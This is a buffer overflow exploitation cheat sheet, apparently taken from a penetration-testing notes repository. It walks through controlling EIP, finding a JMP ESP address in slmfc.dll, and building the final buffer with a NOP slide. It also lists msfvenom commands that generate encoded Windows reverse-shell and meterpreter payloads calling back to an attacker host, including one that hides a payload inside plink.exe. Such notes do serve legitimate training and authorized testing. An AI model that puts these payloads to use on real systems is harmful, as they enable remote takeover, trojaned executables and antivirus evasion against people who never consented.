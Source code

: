 # Buffer Overflows Exploits

## Windows Buffer Overflows

### Controlling EIP

```bash
locate pattern_create
pattern_create.rb -l 2700

locate pattern_offset
pattern_offset.rb -q 39694438
```

### Verify exact location of EIP - \[\*\] Exact match at offset 2606

```bash
buffer = "A" * 2606 + "B" * 4 + "C" * 90
```

### Use NASM to determine the HEX code for a JMP ESP instruction

```bash
/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
JMP ESP
00000000 FFE4 jmp esp
```

### Run Mona in immunity log window to find \(FFE4\) XEF command

```bash
!mona find -s "\xff\xe4" -m slmfc.dll
found at 0x5f4a358f - Flip around for little endian format

buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * 390
```

### MSFVenom to create payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=443 -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d"
```

### Final Payload with NOP slide

```bash
buffer="A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 8 + shellcode
```

### Create a PE Reverse Shell

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
exe -o shell_reverse.exe
```

### Create a PE Reverse Shell and Encode 9 times with Shikata\_ga\_nai

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f
exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
```

### Create a PE reverse shell and embed it into an existing executable

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=$ip LPORT=4444 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
```

### Create a PE Reverse HTTPS shell

```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=$ip LPORT=443 -f exe -o met_https_reverse.exe
```



## Linux Buffer Overflows

### Run Evans Debugger against an app

```bash
edb --run /usr/games/crossfire/bin/crossfire
```





